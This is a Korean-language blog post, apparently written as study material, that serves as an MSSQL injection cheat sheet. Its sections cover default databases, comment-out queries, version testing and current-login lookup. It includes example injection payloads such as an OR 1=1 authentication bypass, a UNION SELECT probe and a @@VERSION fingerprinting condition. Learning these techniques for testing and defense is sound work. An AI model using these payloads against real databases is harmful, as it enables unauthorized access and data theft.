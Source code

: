 ```yaml
---
layout: post
title: "MSSQL Injection Cheet Sheet"
tags: [정보보안, 시트]
comments: true
---
```

MSSQL Injection 실습 시 활용 가능한 시트<br>

<img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhTks81iuUfdMyDiGJs6xgSUxQEVA5zjfCDMgYShiNwWVDsgz9Drnr7p52BQDWhku98ZaALzGr6rFSBm2HqZVgCL-uYs4TlPYyxTpqCaWvR-vCcA7aUdpr-VzwLRMkkOnNojks9fLi1rCM/s1600/MSSQL+Injection.jpg"><br>

##### 출처 링크: [KOROMOON][KOROMOONlink]
[KOROMOONlink]: https://koromoon.blogspot.com/2018/10/mssql-injection-cheet-sheet.html "Go KOROMOON"

## (1) 기본 데이터베이스
![image]([https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/0d754497-e8a3-4ea7-99e8-dc7dea8f9acf](https://github-production-user-asset-6210df.s3.amazonaws.com/18510716/323126184-0d754497-e8a3-4ea7-99e8-dc7dea8f9acf.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAVCODYLSA53PQK4ZA%2F20240421%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20240421T232809Z&X-Amz-Expires=300&X-Amz-Signature=89a3f4fbf9903052afa8749499ea18dee7cfcc60b5a5b73a5fee35104613765a&X-Amz-SignedHeaders=host&actor_id=18510716&key_id=0&repo_id=779222107))


<br><br><br>

## (2) 코멘트 아웃 쿼리(Comment Out Query)

여기서 코멘트 아웃(Comment Out)이란 디버그에서 자주 사용되는 방법으로 코멘트를 지시하는 문을 삽입하여 프로그램이나 명령어 집합의 일부를 일시적으로 사용하지 않는 것을 말함.<br><br>

![image]([https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/32aaba19-680c-4cc2-9670-b1d33e23d718](https://github-production-user-asset-6210df.s3.amazonaws.com/18510716/323126304-32aaba19-680c-4cc2-9670-b1d33e23d718.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAVCODYLSA53PQK4ZA%2F20240421%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20240421T233220Z&X-Amz-Expires=300&X-Amz-Signature=9cf5c840c90829108290ce4ad7fbdd6869adcd15a28052bfe4d15a8cb3562e67&X-Amz-SignedHeaders=host&actor_id=18510716&key_id=0&repo_id=779222107))
<br><br>
예 :<br>
`SELECT * FROM Users WHERE username = '' OR 1=1 --' AND password = '';`<br>
`SELECT * FROM Users WHERE id = '' UNION SELECT 1, 2, 3/*';`<br><br><br>



## (3) 버전 테스팅

`@@VERSION`<br><br>

예 :<br>
MSSQL 버전이 2008 인 경우 참임.<br>
`SELECT * FROM Users WHERE id = '1' AND @@VERSION LIKE '%2008%';`<br><br>

노트 :<br>
결과값에 윈도우 운영 체제 버전도 포함됨.<br><br><br>


## (4) 데이터베이스 자격 증명

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/0f5cfc77-20ee-466b-84b9-2a736a648d76)
<br><br>
예 :<br>
현재 사용자 반환 :<br>
`SELECT loginame FROM master..sysprocesses WHERE spid=@@SPID;`<br><br>
